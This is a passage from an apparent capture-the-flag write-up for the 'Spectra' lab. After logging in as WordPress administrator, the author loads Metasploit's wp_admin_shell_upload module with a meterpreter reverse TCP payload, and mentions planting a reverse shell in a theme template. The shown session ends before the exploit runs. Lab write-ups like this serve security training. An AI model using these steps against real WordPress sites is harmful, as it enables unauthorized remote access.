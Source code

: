 However, the error message is helpful as it says username not known, let's try administrator which we saw before had done the first post:

![spectra-admin-login](/assets/images/2021-03-21-17-02-51.png)

We're logged in as administrator. At this point we can either use Meterpreter to get a reverse shell, or we can change one of the template files from within the WordPress admin site and put our own reverse shell in it.

## Meterpreter Shell

Let's do it with Meterpreter first, then I'll show you the template way later. Fire up MSF and find the wp_admin_shell module:

```text
┌──(root💀kali)-[~/htb/spectra]
└─# msfdb start
[+] Starting database

┌──(root💀kali)-[~/htb/spectra]
└─# msfconsole 

       =[ metasploit v6.0.35-dev                          ]
+ -- --=[ 2106 exploits - 1134 auxiliary - 357 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 8 evasion                                       ]

Metasploit tip: View missing module options with show missing
msf6 > search wp_admin_shell

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/unix/webapp/wp_admin_shell_upload  2015-02-21       excellent  Yes    WordPress Admin Shell Upload

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
```
